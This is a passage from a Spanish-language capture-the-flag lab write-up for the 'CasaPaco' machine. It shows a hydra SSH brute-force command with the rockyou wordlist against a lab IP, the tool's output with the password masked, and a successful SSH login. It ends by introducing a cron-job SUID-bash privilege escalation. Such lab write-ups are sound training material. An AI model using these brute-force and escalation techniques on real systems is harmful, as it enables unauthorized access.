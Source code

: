 Podríamos usar la herramienta **pspy64** para ver quién y en cuánto tiempo se ejecuta la **tarea CRON**, pero no tenemos las herramientas **wget y curl** para cargarlo a la máquina víctima.

Nuestra única opción es usar **scp**, pero no tenemos la contraseña del **usuario pacogerente** para entrar vía **SSH** a la máquina víctima.

Intentemos aplicar fuerza bruta al **servicio SSH** usando el **usuario pacogerente** y la herramienta **hydra**:
```bash
hydra -l 'pacogerente' -P /usr/share/wordlists/rockyou.txt ssh://192.168.100.20 -t 64
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-06 15:11:40
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://192.168.100.20:22/
[STATUS] 603.00 tries/min, 603 tries in 00:01h, 14343828 to do in 396:28h, 32 active
[STATUS] 599.00 tries/min, 1797 tries in 00:03h, 14342634 to do in 399:05h, 32 active
[22][ssh] host: 192.168.100.20   login: pacogerente   password: *****
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 27 final worker threads did not complete until end.
[ERROR] 27 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-08-06 15:18:18
```
Tardo un poco, pero tenemos la contraseña.

Probémosla:
```bash
ssh pacogerente@192.168.100.20
pacogerente@192.168.100.20's password: 
Linux Thehackerslabs-CasaPaco 6.1.0-29-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.123-1 (2025-01-02) x86_64
...
Last login: Tue Jan 14 16:48:33 2025
pacogerente@Thehackerslabs-CasaPaco:~$ whoami
pacogerente
```
Estamos dentro.

Ya podemos copiar la herramienta **pspy64**.

<br>

<h2 id="CRON">Modificando Tarea CRON para Asignar Permisos SUID a la Bash y Podamos Escalar Privilegios</h2>

Aquí puedes encontrar la herramienta **pspy64**:
* <a href="https://github.com/DominicBreuker/pspy" target="_blank">Repositorio de DominicBreuker: pspy64</a>
